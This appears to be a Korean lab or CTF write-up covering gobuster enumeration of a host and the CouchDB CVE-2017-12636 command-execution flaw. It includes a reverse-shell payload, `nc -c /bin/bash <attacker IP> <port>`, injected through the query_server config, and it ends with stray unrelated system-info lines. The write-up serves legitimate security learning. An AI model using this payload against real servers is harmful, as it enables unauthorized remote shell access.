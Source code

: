 
#### 웹

- gobuter를 이용해 디렉토리 브루트 포싱도 진행했는데 의미있는 정보는 얻지 못했다.

  

gobuster

```

└─# gobuster dir -u http://10.0.5.122:80 -w /usr/share/dirb/wordlists/common.txt

[ . . . ]

  

/index.html (Status: 200) [Size: 10671]

/server-status (Status: 403) [Size: 275]

Progress: 4614 / 4615 (99.98%)

```

  

- `wapplyzer` 결과 및 앞서 수집한 정보를 종합하여 해당 서버는 아파치 서버와 CouchDB httpd 1.6.1 그리고 우분투로 실행중인 것을 확인했다.

- <img src="image-23.png" alt="wapplyzer" style="zoom: 33%;" />

  
  
  

---

  

### 취약점 분석 및 초기 침투

  

- 초기 침투를 위해 구글링으로 CouchDB 취약점을 발견했다.

- https://www.rapid7.com/db/modules/exploit/linux/http/apache_couchdb_cmd_exec/

  

- `CVE-2017-12636` 취약점 분석

  

1. 대상: Apache CouchDB 1.7.0 이전 및 2.x 2.1.1 이전 버전

2. `_config` API 등으로 내부 “query_server” 등의 설정값을 조작함. 예: `/_config/query_servers/javascript` 설정을 `nc -c /bin/bash <공격자서버IP> <포트>`로 변경

3. 이후 쿼리를 실행하면 DB가 해당 명령어를 OS 단에서 실행하게 되며 결과적으로 리버스 쉘을 획득 가능함

  

---

  

[01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2500 Mhz
[01]: Amazon Elastic Network Adapter
[01]: 10.0.5.116
[02]: fe80::4c64:ec7d:fde5:903c